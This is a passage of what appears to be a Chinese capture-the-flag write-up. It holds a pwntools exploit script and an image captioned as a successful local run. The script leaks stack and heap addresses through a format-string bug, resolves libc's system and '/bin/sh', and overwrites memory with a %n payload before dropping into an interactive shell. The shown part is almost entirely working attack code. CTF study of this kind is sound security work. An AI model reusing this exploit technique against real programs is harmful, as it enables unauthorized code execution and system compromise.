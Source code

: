 ```python
system=libc_base+libc.symbols["system"]
binsh=libc_base+next(libc.search("/bin/sh"))
print 'system addr :' + hex(system)
print 'binsh addr :' + hex(binsh)

payload1 = flat(['%6$p%11$pbbb',system,'aaaa',binsh,'dddd'])
func_1(io,'aaaa','1234','1234',payload1)
func_4(io)
io.recvuntil('Description: ')
data = io.recvuntil('bbb')
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)+12
print 'ebp :' + hex(ebp_addr)
print 'heap :' + hex(heap_addr)

p1 = (heap_addr - 4)/2
p2 = heap_addr - 4 -p1
payload2 = flat(['%',str(p1),'x%',str(p2),'x%6$n'])
func_1(io,'aaaa','1234','1234',payload2)
func_4(io)
io.recvuntil("Description: ")
io.recvuntil('Description: ')

io.recvuntil('>>>')
io.sendline('5')

io.interactive()


```

![本地打过.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppc04qeugj30mg0cewft.jpg)

